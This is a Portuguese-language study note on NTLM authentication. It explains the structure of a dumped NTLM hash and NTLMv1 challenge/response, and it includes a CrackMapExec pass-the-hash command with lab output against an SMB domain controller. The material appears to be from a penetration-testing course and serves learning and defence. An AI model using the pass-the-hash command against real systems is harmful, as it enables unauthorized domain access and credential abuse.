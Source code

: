 #### Estrutura de um Hash NTLM

- **Exemplo**: `Rachel:500:aad3c435b514a4eeaad3b935b51304fe:e46b9e548fa0d122de7f59fb6d48eaa2:::`
    - `Rachel`: Nome de usuário.
    - `500`: Identificador Relativo (RID), 500 é o RID conhecido para a conta `administrator`.
    - `aad3c435b514a4eeaad3b935b51304fe`: Hash LM (não utilizado se os hashes LM estiverem desativados).
    - `e46b9e548fa0d122de7f59fb6d48eaa2`: Hash NT (pode ser quebrado offline ou usado para ataques pass-the-hash).

#### Exemplo de Ataque Pass-the-Hash

- **Ferramenta CrackMapExec**:
    `crackmapexec smb 10.129.41.19 -u rachel -H e46b9e548fa0d122de7f59fb6d48eaa2 
    
    `SMB 10.129.43.9 445 DC01 [*] Windows 10.0 Build 17763 (name:DC01) (domain:exemplo.LOCAL) (signing:True) (SMBv1:False)
	
    `SMB 10.129.43.9 445 DC01 [+] exemplo.LOCAL\rachel:e46b9e548fa0d122de7f59fb6d48eaa2 (Pwn3d!)`
    

#### NTLMv1 e NTLMv2

- **Progressão do Protocolo**: O NTLM evoluiu de NTLMv1 para NTLMv2 para melhorar a segurança. Nem LANMAN nem NTLM usam salt, o que os torna vulneráveis a certos tipos de ataques.

#### Conclusão

- **Utilização**: NTLM continua sendo amplamente utilizado devido à sua compatibilidade com versões anteriores e integração com o Active Directory, apesar de suas vulnerabilidades conhecidas. É essencial estar ciente das suas fraquezas e tomar medidas para proteger as credenciais armazenadas e transmitidas.

---

## NTLMv1 (Rede-NTLMv1)
#### Funcionamento

- **Autenticação Desafio/Resposta**: NTLMv1 usa um processo de desafio/resposta para autenticar o cliente.
- **Hash Utilizado**: Utiliza o hash NT e o hash LM.
- **Uso**: Utilizado para autenticação de rede.
- **Insegurança**: Facilita o "crack" off-line após a captura do hash usando ferramentas como o [Responder](https://github.com/lgandx/Responder) ou por meio de um [ataque de retransmissão NTLM](https://byt3bl33d3r.github.io/practical-guide-to-ntlm-relaying-in-2017-aka-getting-a-foothold-in-under-5-minutes.html).

#### Algoritmo de Desafio/Resposta NTLMv1

`C = 8-byte server challenge, random K1 | K2 | K3 = LM/NT-hash | 5-bytes-0 response = DES(K1,C) | DES(K2,C) | DES(K3,C)`

- **Desafio**: O servidor envia um desafio aleatório de 8 bytes para o cliente.
- **Resposta**: O cliente retorna uma resposta de 24 bytes.
